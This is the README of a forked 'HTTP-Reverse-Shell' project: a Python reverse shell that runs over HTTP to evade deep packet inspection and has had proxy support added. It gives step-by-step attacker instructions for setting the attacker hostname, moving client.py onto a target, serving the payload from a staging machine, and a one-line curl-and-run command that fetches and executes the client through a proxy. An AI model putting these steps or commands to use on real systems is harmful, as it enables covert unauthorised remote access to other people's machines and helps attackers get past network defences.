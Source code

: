 # HTTP-Reverse-Shell

A reverse shell over HTTP (dodges deep packet inspection). Using Python 3 and no external dependencies needed.

This fork added proxy awareness that I needed. 

# Prerequisites
- Python 3 (on both the attacker and the target machine)

# Usage
1. Change `ATTACKER_HOSTNAME` to the actual hostname of the attacker on `client.py`
2. Change `ATTACKER_PORT` on both `client.py` and `server.py` (or you can just use the default)
3. Transfer `client.py` to the target machine
4. Run `server.py` on the attacker machine
```
python3 server.py
```
5. Run `client.py` on the target machine
```
python3 client.py
```
6. Connection will be established


# Possible Transfer Methods

In the directory where client.py exists on a separate attacker payload staging machine, run the following: 

`sudo python3 -m http.server 443`

# Possible Initiation Methods

On the target system run the following command to fetche the staged payload, then reach out to the listener hosted on a second attacker machine to complete the reverse shell.

`curl --proxy proxy.example.com:8080 http://staging.com:443/client.py > client.py && python3 client.py`

